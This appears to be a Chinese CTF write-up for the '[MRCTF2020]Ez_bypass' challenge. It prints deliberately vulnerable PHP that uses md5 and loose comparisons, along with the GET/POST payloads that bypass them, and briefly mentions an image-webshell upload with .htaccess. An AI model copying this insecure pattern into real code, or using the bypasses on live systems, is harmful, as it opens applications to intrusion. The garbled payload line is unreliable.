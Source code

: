图片马上传成功，只返回了路径，试一下.htaccess

## [MRCTF2020]Ez_bypass

```php

I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

很简单的一道题，前面做过很多了，就不赘述了

```
payload:
get ?gg[]=1&id[2&passwd=1234567a]=
post passwd=1234567a
```

![1626678208350](buuweb_page1.assets/1626678208350.png)

## 